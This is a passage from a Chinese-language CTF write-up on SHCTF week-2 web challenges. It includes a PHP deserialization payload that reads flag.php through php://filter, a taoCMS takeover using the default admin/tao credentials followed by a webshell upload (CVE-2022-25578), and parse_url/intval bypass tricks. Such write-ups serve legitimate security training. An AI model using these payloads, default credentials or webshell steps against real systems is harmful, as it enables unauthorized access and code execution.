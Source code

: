给前面的属性值 +1 即可绕过


    O:4:"flag":3:{s:8:"username";s:5:"admin";s:4:"code";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}


![](https://s2.loli.net/2024/03/08/1M2uwDqOLF6TGWz.png)

![](https://s2.loli.net/2024/03/08/iO8LBa73JQks5YW.png)

###    **[WEEK2]EasyCMS**

   taoCMS 漏洞



[Taocms 代码注入漏洞(CVE-2022-25578)_taocms 演示系统漏洞](https://blog.csdn.net/huayimy/article/details/127611217)

dirsearch 扫到后台的登录地址

URL/admin/admin.php

账号：admin（默认）

密码：tao    （默认）

成功登录管理员账户

![](https://s2.loli.net/2024/03/08/IjAu78Wo2CYdmHt.png)

在文件管理处新建一个 php 文件，内容为一句话木马，然后保存访问执行系统命令即可

![](https://s2.loli.net/2024/03/08/6jR3eEGDsYCu2hH.png)


### **[WEEK2]MD5 的事就拜托了**

parse_url() 套娃，intval()漏洞   哈希长度拓展攻击



`<?php
$url = 'host://SHCTF:pass@user/SHCTF?args=value#anch';
print_r(parse_url($url));
echo parse_url($url, PHP_URL_PATH);
?>`


![](https://s2.loli.net/2024/03/08/F9bpCiVQArzMR3I.png)

**第一个if：parse_url函数的解释和绕过
让$schema =host
则$$schema=$host
让$host=user
$z$$schema=$host=user
让user=SHCTF
则$$$schema=SHCTF
POST:SHCTF=host://SHCTF:pass@user/SHCTF?args=value#anch
第二个if：
利用intval(400.123)=400的特性
?length=4.1234**
